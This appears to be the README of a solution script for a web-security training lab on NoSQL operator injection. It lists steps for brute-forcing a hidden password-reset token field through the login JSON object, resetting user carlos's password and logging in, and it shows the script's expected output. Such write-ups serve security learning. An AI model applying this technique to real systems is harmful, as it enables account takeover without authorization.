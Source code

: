 # Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_nosql_operator_injection_to_extract_unknown_fields.py
```

# Expected Output

```
⟪#⟫ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Checking if field number 3 length =  5
⦗4⦘ Checking if field number 3 length =  7
                            ...............
⦗4⦘ Checking if field number 3 length =  13 [ Correct length: 13 ]
⦗5⦘ Checking if the char of field 3 at position 4  =  n [ Correct name: reset ]
⦗5⦘ Checking if the char of field 3 at position 9  =  n [ Correct name: resetPwdTo ]
                            ...............
⦗5⦘ Checking if the char of field 3 at position 12  =  n [ Correct name: resetPwdToken ]
⦗6⦘ Checking if the field resetPwdToken length =  7
⦗6⦘ Checking if the field resetPwdToken length =  10
                            ...............
⦗6⦘ Checking if the field resetPwdToken length =  16 [ Correct length: 16 ]
⦗7⦘ Checking if the char of resetPwdToken at position 6  =  3 [ Correct value: c82305f ]
⦗7⦘ Checking if the char of resetPwdToken at position 10  =  3 [ Correct value: c82305f8cb2 ]
                            ...............
⦗7⦘ Checking if the char of resetPwdToken at position 15  =  3 [ Correct value: c82305f8cb271ed3 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 Check your browser, it should be marked now as solved
```
